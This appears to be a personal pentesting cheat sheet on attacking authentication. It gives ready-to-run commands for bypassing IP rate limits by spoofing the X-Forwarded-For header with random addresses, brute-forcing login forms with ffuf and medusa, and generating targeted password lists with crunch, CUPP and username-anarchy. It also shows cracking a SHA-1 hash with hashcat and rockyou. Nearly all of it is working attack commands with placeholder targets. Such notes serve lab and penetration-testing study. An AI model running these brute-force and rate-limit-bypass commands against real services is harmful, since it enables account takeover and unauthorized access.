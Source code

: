 #auth 
##### Bypass protection
1. Use header
```bash
for i in {1..10000}; do echo "$((RANDOM % 256)).$((RANDOM % 256)).$((RANDOM % 256)).$((RANDOM % 256))"; done > random_ips.txt
```

```bash
ffuf -w random_ips.txt:IP -H 'X-Forwareded-For: IP'
```
1. IP block may be reset on success login or request counter may be reset
2. Account lock after a number of fail attempts
3. captcha

#### Basic usage
````shell
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
````

[[Passwords]]
#### Default passwords:
- [https://cirt.net/passwords](https://cirt.net/passwords)
- https://default-password.info/
- https://datarecovery.com/rd/default-passwords/
https://wiki.skullsecurity.org/index.php?title=Passwords
#### Generate passwords:
`crunch 8 8 0123456789abcdefABCDEF -o crunch.txt` the file generated is 459 GB and contains 54875873536 words.

crunch also lets us specify a character set using the -t option to combine words of our choice. Here are some of the other options that could be used to help create different combinations of your choice:  

@ - lower case alpha characters

, - upper case alpha characters

% - numeric characters

^ - special characters including space

`crunch 6 6 -t pass%%`
           
Crunch will now generate the following amount of data: 700 bytes 0 MB 0 GB 0 TB 0 PB Crunch will now generate the following number of lines: 100 pass00 pass01 pass02 pass03`


### Username anarchy
```bash
sudo apt install ruby -y
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy

./username-anarchy Jane Smith > jane_smith_usernames.txt
./username-anarchy -i user_names.txt > jane_smith_usernames.txt
```

### CUPP - Common User Passwords Profiler
Generates passwords based on personal info (name, nickname, birthday, etc.)
```shell
sudo apt install cupp -y

cupp -i
```

### [[hashcat]]
#### detect hash type
`hashid 8d6e34f987851aa599257d3831a1af040886842f`

#### dict based attack on sha-1
`hashcat -m 100 -a 0 8d6e34f987851aa599257d3831a1af040886842f /usr/share/wordlists/rockyou.txt`
#### Medusa
```shell
 medusa -h 192.168.0.100 -U usernames.txt -P passwords.txt -M ssh 
```

```shell-session
medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M http -m GET 
```

 Perform additional checks for empty passwords (`-e n`) and passwords matching the username (`-e s`).
```shell
medusa -h 10.0.0.5 -U usernames.txt -e ns -M service_name
```
